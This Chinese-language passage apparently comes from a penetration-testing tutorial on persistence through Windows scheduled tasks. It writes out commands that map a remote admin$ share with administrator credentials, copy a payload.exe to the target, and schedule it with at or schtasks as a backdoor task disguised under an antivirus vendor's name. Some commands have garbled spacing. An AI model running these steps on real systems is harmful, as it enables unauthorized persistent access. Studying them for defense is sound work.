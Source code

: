 这里就在继续说一下

**维稳方法三：Windows 的计划任务（schtasks）**

**简介：**

计划任务，顾名思义，指定时间做指定的事情，对 windows 来说可能是执行脚本，也可能是 exe。计划任务的利用不仅仅在横向渗透中，也可以是在权限维持。

**利用前提:**

1. 必须通过其他手段拿到本地或者域管理账号密码

2. 若在横向渗透过程中，要保证当前机器能 netuse 远程到目标机器上

3. 目标机器开启了 taskscheduler 服务

**测试：**

对于 XP 或者 2003 以下的机器，基本都是用 at 来管理本地或者远程机器上的计划任务。这里没有搭建 03 的机器，就简单的列一下命令，解释一下。

ne tuse \\192.168.1.101\admin$ /user:"administrator" admin #netuse 连接

net time \\192.168.1.101 #查看远程主机时间

xcopyc:\payload.exe \\192.168.1.101\admin$\temp 

# 拷贝 payload 至 0 远程主机对应目录下

at\\192.168.1.10119:30 /every:5,10,15,20,25,30c:\windows\temp\payload.exe

#设定计划任务，每月 5,10,15,20,25,30 日的 19:30 执行命令运行 payload

设置完计划任务后可以通过以下命令查看：

at \\192.168.1.101

删除任务的话只需要加上参数 / delete 即可。这样会在指定日期的晚上七点半返回一个会话。

在 win7 后的版本就有了个新的功能，schtasks 计划任务：

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5WA6p54WM6t7FOsiah2158xYnpYRaqQNPR5lewhNyEa9ApYLXw97quWQ/640?wx_fmt=jpeg)

  

  

比如我要在十点后启用这个这个后门。

schtasks/create /tn "360"/trC:\Windows\Temp\360.exe /sc DAILY /st 10:00

/tn 任务名（自定义）/tr 目录，也可以是执行的命令  
schtasks/query /tn 360/v schtasks /query|findstr "360"  
#查询创建的任务         
schtasks/run /tn 360  
#立即运行创建的任务    
schtasks/delete /tn 360  
#删除任务

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt57KSDE4XiaUQlqBXsAW4kpicKUHWGVFO5bI9RHT3O8QibsJFF9OicO0Ls9w/640?wx_fmt=png)

  
